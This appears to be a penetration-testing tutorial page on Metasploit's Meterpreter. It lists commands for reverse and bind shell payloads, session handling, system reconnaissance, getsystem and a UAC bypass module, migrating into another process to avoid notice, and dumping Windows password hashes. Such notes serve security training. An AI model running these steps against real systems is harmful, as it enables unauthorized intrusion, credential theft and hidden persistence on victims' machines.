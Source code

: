 # Meterpreter

Meterpreter is a very powerful shell which runs on Anroid, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services

It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more

To list all possible Meterpreter payloads in MSFConsole:

```
search meterpreter
```

To choose a payload when attacking a Windows machine:

```
set payload windows/meterpreter/reverse_tcp
```

## Bind and Reverse

Meterpreter can both wait for a connection on the target machine or connect back to the attacker machine

Most used configurations are `bind_tcp` and `reverse_tcp`

* **`bind_tcp`** runs a server process on the target machine that waits for connections from the attacker machine
* **`reverse_tcp`** performs a TCP connection back to the attacker machine which could help evade firewall rules

```
set payload windows/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp
set payload windows/meterpreter/bind_tcp
set payload java/meterpreter/bind_tcp
```

## Sessions

A single instance of MSFConsole can host multiple Meterpreter sessions which means you can instance multiple shells on your targets and switch between them

To switch from a Meterpreter session to the console

```
background
```

To list currently opened sessions

```
sessions -l
```

To resume a background session

```
sessions -i <id>
```

## Information Gathering

You can perform information gathering on the exploited machine and the network it is attached to

You can retrieve:

* Information about the machine and the OS
* The network configuration in use
* The routing table of the compromised host
* Information about the user running the exploited process

### System Information

To retrieve information about the exploited machine: name, OS, architecture, system language and the Meterpreter version running:

```
sysinfo
```

![](<../../../../.gitbook/assets/image (376).png>)

### Network configuration

To print the network configuration:

```
ifconfig
```

![](<../../../../.gitbook/assets/image (196).png>)

### Routing information

```
route
```

![](<../../../../.gitbook/assets/image (218).png>)

### Current User

```
getuid
```

![](<../../../../.gitbook/assets/image (92).png>)

### Privilege Escalation

To just current privileges on Windows

```
run post/windows/gather/win_privs
```

![](<../../../../.gitbook/assets/image (545).png>)

You can use `getsystem` if the owner of the process does not have high privileges on the victim system

```
getsystem
```

![](<../../../../.gitbook/assets/image (468).png>)

### Bypassing UAC

{% hint style="info" %}
In modern Windows operating systems, the User Account Control policy prevent privilege escalation
{% endhint %}

![](<../../../../.gitbook/assets/image (443).png>)

You can bypass that restriction by u sing the `bypassuac` module

```
use exploit/windows/local/bypassuac
```

Then you have to set the session where you want to bypass UAC

```
set session <id>
```

Launch the exploit to get a new Meterpreter session with the UAC policy disabled and use `getsystem`

![](<../../../../.gitbook/assets/image (6).png>)

## Staying Stealthy

Checking pid with `getpid` shows the process you're currently running on

As you can imagine, this process name is not very stealthy and is also suspicious

A user checking their process list may notice something strange on their machine

![](<../../../../.gitbook/assets/image (436).png>)

Therefore, in order to remain stealthy, we can use the `migrate` command to attach our session on a different process

We have to choose a process with the same privileges we currently have

```
ps -U SYSTEM
migrate <PID> //simply using migrate should work as well if you don't want to be specific
```

## Dumping the Password Database

```
use post/windows/gather/hashdump
set session <id>
exploit
```

![](<../../../../.gitbook/assets/image (410).png>)

## Exploring the Victim System

You can navigate the hard drive by using Unix-like shell commands

![](<../../../../.gitbook/assets/image (597).png>)

## Uploading and Downloading

![](<../../../../.gitbook/assets/image (352).png>)

## Running an OS Shell

You can run a standard OS shell

```
shell
```

![](<../../../../.gitbook/assets/image (114).png>)
